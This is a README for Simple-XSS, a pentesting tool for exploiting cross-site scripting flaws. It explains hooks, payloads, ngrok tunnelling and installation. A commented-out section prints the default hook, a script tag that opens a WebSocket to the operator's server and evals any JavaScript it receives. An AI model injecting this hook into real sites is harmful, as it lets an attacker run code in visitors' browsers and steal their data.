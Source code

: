 # Simple-XSS

<p align="center">
  <img src="resources/images/logo.png"  alt="Simple-XSS logo"/>
</p>

<a href="https://github.com/CrazyProger1/Simple-XSS/releases/download/V0.2/Simple-XSS-Windows-x64.zip"><img alt="GitHub all releases" src="https://img.shields.io/github/downloads/CrazyProger1/Simple-XSS/total"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/blob/master/LICENSE"><img alt="GitHub" src="https://img.shields.io/github/license/CrazyProger1/Simple-XSS"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/releases/latest"><img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/CrazyProger1/Simple-XSS"></a>

Simple-XSS is a multi-platform cross-site scripting (XSS) vulnerability exploitation tool for pentesting.

Problems solved by Simple-XSS:

- [x] Easy creatable payloads & hooks
- [x] Support of several payload delivering protocols (depends on hook)
- [x] Support of several tunneling services (to deliver payload even without white IP)

**Disclaimer:** This program is provided for educational and research purposes only.
The creator of this program does not condone or support any illegal or malicious activity,
and will not be held responsible for any such actions taken by others who may use this program.
By downloading or using this program, you acknowledge that you are solely responsible for any consequences
that may result from the use of this program.

## Vocabulary

**Hook** - transport of payload. Delivers payload to the client browser using a XSS attack.

**Payload** - a program that will be launched remotely in the client’s browser.

## Usage

### GUI-Guide

[//]: # (> Use `--help` argument to get help.)

[//]: # (![commandline help]&#40;docs/help.png&#41;)

[//]: # ()

[//]: # (### GUI-Guide)

[//]: # ()

[//]: # (Firstly, choose the hook. [Default hook]&#40;hooks/default&#41; is the simplest hook, it is only suitable for forms without XSS)

[//]: # (protection:)

[//]: # ()

[//]: # (![step 1]&#40;docs/step_1.png&#41;)

[//]: # ()

[//]: # (Then, choose the payload. [Hello world payload]&#40;payloads/hello_world&#41; is an example payload, it just alerts "Hello,)

[//]: # (World!":)

[//]: # ()

[//]: # (![step 2]&#40;docs/step_2.png&#41;)

[//]: # ()

[//]: # (Now, lets set up tunneling. Tunneling is needed to make a local server public. You have 2 options:)

[//]: # ()

[//]: # (1&#41; use one of the suggested tunneling apps &#40;now it's only [ngrok]&#40;https://ngrok.com/&#41;&#41;)

[//]: # (2&#41; tunnel ports yourself and pass the public URL of the HTTP tunnel to the program)

[//]: # ()

[//]: # (![step 3]&#40;docs/step_3_1.png&#41;)

[//]: # ()

[//]: # (![step 3]&#40;docs/step_3_2.png&#41;)

[//]: # ()

[//]: # (Finally, you can run the process!)

[//]: # ()

[//]: # (![step 4]&#40;docs/step_4.png&#41;)

[//]: # ()

[//]: # (Now you can copy the hook and start hunting ;D)

[//]: # ()

[//]: # (![step 5]&#40;docs/step_5.png&#41;)

[//]: # ()

[//]: # (To demonstrate the possibilities, we can use site [xss-game.appspot.com]&#40;https://xss-game.appspot.com/&#41;.)

[//]: # (Enter the hook into search form:)

[//]: # ()

[//]: # (![step 6]&#40;docs/step_6.png&#41;)

[//]: # ()

[//]: # (Press "Search". As you can see, we have the alert dialog!)

[//]: # ()

[//]: # (![step 7]&#40;docs/step_7.png&#41;)

[//]: # ()

[//]: # (Also, we have "Hello, World!" in our console:)

[//]: # (![step 8]&#40;docs/step_8.png&#41;)

[//]: # ()

[//]: # (### Hook)

[//]: # ()

[//]: # (> _Hooks folder: [hooks]&#40;hooks&#41;_)

[//]: # ()

[//]: # (**Hook** is an HTML code snippet designed to be embedded in a vulnerable XSS form. It looks like:)

[//]: # ()

[//]: # (```html)

[//]: # ()

[//]: # (<script>c = new WebSocket&#40;'{{environment.public_url}}'&#41;;)

[//]: # (c.onmessage = &#40;e&#41; => eval&#40;e.data&#41;;</script>)

[//]: # (```)

[//]: # ()

[//]: # (**NOTE:** _As you can see here is a built-in variable: {{environment.public_url}}. You can read more about)

[//]: # (this below._)

[//]: # ()

[//]: # (This is a [default]&#40;hooks/default&#41; hook. When it's embedded in the vulnerable form, it downloads the JS)

[//]: # (code &#40;[payload]&#40;#payload&#41;&#41; via)

[//]: # (WebSockets)

[//]: # (protocol from the server and)

[//]: # (executes it using [eval]&#40;https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval&#41;.)

[//]: # ()

[//]: # (Hook has the following structure:)

[//]: # ()

[//]: # (```)

[//]: # (|)

[//]: # (+-- hook_folder)

[//]: # (    |)

[//]: # (    +-- hook.html)

[//]: # (    |)

[//]: # (    +-- package.toml)

[//]: # (```)

[//]: # ()

[//]: # (**hook.html** - main file, contains HTML code that can be embedded in vulnerable form.)

[//]: # ()

[//]: # (**package.toml** - metadata file, contains data about hook such as name, description, author and version.)

[//]: # ()

[//]: # (### Payload)

[//]: # ()

[//]: # (> _Payloads folder: [payloads]&#40;payloads&#41;_)

[//]: # ()

[//]: # (**Payload** is an arbitrary JS code that loaded by hook on a vulnerable page and executed)

[//]: # (with [eval]&#40;https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval&#41;.)

[//]: # ()

[//]: # (Payload has the following structure:)

[//]: # ()

[//]: # (```)

[//]: # (|)

[//]: # (+-- payload_folder)

[//]: # (    |)

[//]: # (    +-- payload.js)

[//]: # (    |)

[//]: # (    +-- package.toml)

[//]: # (    |)

[//]: # (    +-- init.py)

[//]: # (```)

[//]: # ()

[//]: # (**payload.js** - main file, contains arbitrary JS code.)

[//]: # ()

[//]: # (**package.toml** - metadata file, contains data about payload such as name, description, author and version.)

[//]: # ()

[//]: # (**init.py** - python file, imported when loading payload. Allows you to interact with the client side of payload)

[//]: # (&#40;payload.js&#41; via WebSockets protocol.)

[//]: # ()

[//]: # (### Templating)

[//]: # ()

[//]: # (**Built-in objects** is an objects passed into hook & payload main files)

[//]: # (using [Jinja]&#40;https://jinja.palletsprojects.com/&#41;)

[//]: # (templating engine. It contains additional information that may be needed when loading a hook or payload.)

[//]: # ()

[//]: # (#### Environment)

[//]: # ()

[//]: # (- **public_url** - public address of WebSocket server)

[//]: # ()

[//]: # (#### Metadata)

[//]: # ()

[//]: # (**package** - hook or payload)

[//]: # ()

[//]: # (- **name** - name of package)

[//]: # (- **author** - package author)

[//]: # (- **version** - version of package)

[//]: # (- **description** - package description)

[//]: # ()

[//]: # (If you need to use some variable, just use such construction: {{object.variable}}.)

[//]: # (For example:)

[//]: # ()

[//]: # (```)

[//]: # (alert&#40;'{{metadata.name}} - V{{metadata.version}}'&#41;)

[//]: # (```)

[//]: # ()

[//]: # (The provided payload code snippet will display an alert dialog showcasing the name and version of the payload.)

## Interface

> _Thanks to the use of the [Python Flet framework](https://flet.dev/), the application works equally well both in the
browser and in the graphical interface._

### Graphical

### WEB

### Command-Line

## Installation

**Note:** _make sure you have installed [Python 3.11](https://www.python.org/downloads/release/python-3115/)_

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install the requirements:

**For Window:**

```commandline
cd Simple-XSS
pip install -r requirements/windows.txt
```

**For Linux:**

```commandline
cd Simple-XSS
pip install -r  requirements/linux.txt
```

And finally you can launch it:

```commandline
python main.py
```

## License

Simple-XSS is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.
